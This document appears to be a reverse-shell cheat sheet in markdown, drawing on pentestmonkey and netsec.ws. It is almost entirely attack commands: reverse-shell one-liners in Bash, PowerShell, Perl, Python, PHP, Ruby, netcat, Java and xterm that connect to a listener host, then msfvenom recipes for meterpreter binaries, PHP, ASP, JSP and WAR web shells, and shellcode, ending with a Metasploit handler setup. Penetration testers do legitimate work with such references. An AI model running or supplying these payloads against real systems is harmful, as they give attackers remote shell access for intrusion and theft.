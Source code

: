 # Reverse shell cheatsheet

__Sources__
```
http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
https://netsec.ws/?p=331
```

## Pentestmonkey

### Bash

```bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

### Powershell

```powershell
powershell -nop -exec bypass -c "$client = New-Object System.Net.Sockets.TCPClient('<LISTENERIP>',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

### Perl

```bash
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### Python 

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### PHP 

```bash
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

### Ruby 

```bash
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

### Netcat

```bash
nc -e /bin/sh 10.0.0.1 1234
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

### Java

```bash
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

### Xterm

```bash
xterm -display 10.0.0.1:1
```

## MSfvenom payloads

__Listing__

Payloads
```bash
msfvenom -l payloads
```
	
Encoders
```bash
msfvenom -l encoders
```

Nops
```bash
msfvenom -l nops
```

__Staged vs unstaged__

non-staged
```
windows/shell_reverse_tcp
linux/shell_reverse_tcp
```
staged
```
windows/shell/reverse_tcp
windows/meterpreter/reverse_tcp
```

### Binaries

Linux
```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf
```

Windows
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe
```

Mac
```bash
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.macho
```

### WebPayloads


PHP
```bash
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```

ASP
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp
```


JSP
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp
```

WAR
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war
```


### Shellcode

Linux based Shellcode
```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
```

Windows based shellcode
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
```

Mac Based shellcode
```bash
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
```

### Multihandler MSF

Gotta catch em all
```bash
use exploit/multi/handler
set payload <>
set lhost <>
set lport <> 
run -j
```
